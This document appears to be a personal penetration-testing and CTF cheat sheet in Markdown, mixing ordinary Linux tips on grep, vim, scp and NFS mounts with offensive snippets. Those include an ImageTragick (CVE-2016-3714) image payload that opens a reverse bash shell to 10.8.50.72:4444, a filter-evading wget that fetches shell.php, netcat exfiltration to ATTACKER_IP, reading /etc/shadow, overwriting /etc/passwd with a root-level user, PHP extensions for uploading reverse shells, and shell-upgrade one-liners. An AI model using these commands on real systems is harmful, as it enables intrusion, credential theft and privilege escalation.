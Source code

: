 [back](../README.md)
#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```
---
#### scan from 1 to 100 ports with nc
```sh
for i in {1..100};do nc $IP $i;echo "";done
```
---
#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```


#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.

`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`

cat ./-

file */{.,}* #every type of file in folder
du -b -a | grep 1033 #size of file
sort data.txt | uniq -u #uniq lines

cat .download.dat | xxd -r -p #like strings
```

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```sh
gzip -d file.gz
```
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```
---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

---
#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"             # Recursively search for lines
grep -n                      # show numbers of lines
grep -i                      # do not care abuot regex
grep -c                      # how many times
grep linux * -r              # recursive  in all files
# точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#'                      # begins with
'^$'                         # пустые строки
-e '^(#|$)'                  # начинается или с # или с $(пустая строка)
grep -e 'colou?r'            # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root'               # only word root, not asdrootas
\grep                        # unalias
-A5                          # five line after the math
-B5                          # before
-C5                          # before and after
-e '[0-9]{5,6}/tcp' file.txt # от 5 до 6 цифр от 0 до 9
-E '[0-9]$'                  # number at the end of line
-E '\s*'                     # space or tab 
+                            # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### connect as annon with ftp
```
ftp -A $IP
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### magic numbers
png
```
89504E470D0A1A0A
```
gif
```
GIF87a    474946383761
GIF89a    474946383961
```

#### mv multiple files
```
mv -t DESTINATION file1 file2 file3
```

---

#### run shell as other user
```
sudo -u user bash
```
---
#### shells
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
---
